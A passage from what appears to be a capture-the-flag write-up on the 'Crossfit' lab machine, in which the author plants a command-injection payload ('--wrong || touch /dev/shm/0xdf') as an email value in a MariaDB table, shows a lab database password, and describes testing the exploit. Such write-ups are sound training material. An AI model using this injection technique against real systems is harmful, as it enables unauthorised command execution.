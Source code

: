 So if I want to add a command injection into the database, I can do it from `mysql`:

```

MariaDB [crossfit]> insert into users(email) values('--wrong || touch /dev/shm/0xdf'); 
Query OK, 1 row affected (0.002 sec)

```

And it’s there:

```

MariaDB [crossfit]> select * from users;                                              
+----+--------------------------------+
| id | email                          |
+----+--------------------------------+
| 52 | 0xdf@crossfit.htb              |
| 79 | --wrong || touch /dev/shm/0xdf |
+----+--------------------------------+
2 rows in set (0.000 sec)

```

### Execution POC

As a proof of concept, I’ll try to just write a file. I wasted a lot of time and learned some lessions:
- `/tmp` is not writable, so testing with `touch /tmp/anything` will fail even if the exploit works;
- The `cleanup()` function in PHP must be removing any malicious emails from the DB on each run;
- That cleanup happens regardless of if the mail send (and thus execution) was triggered or not;
- `lftp` seems to show a file even after it’s been deleted sometimes.

I got comfortable testing with three consoles. Two were shells on Crossfit, and one logged into FTP as ftpadm. The first shell is in the DB. The second is running a watch command to track status / success.

```

www-data@crossfit:/dev/shm$ watch 'date; mysql -u crossfit -poeLoo~y2baeni crossfit -e "select * from users"; ls'

```

This will print out the time (so I can watch for the cron), the current `users` table (so I can see what’s pending), and the contents of `/dev/shm`, and update every two seconds. It starts looking like this:

```

Every 2.0s: date; mysql -u crossfit -poeL...  crossfit: Tue Jan 26 17:19:49 2021

Tue Jan 26 17:19:49 EST 2021
id      email
52      0xdf@crossfit.htb

```
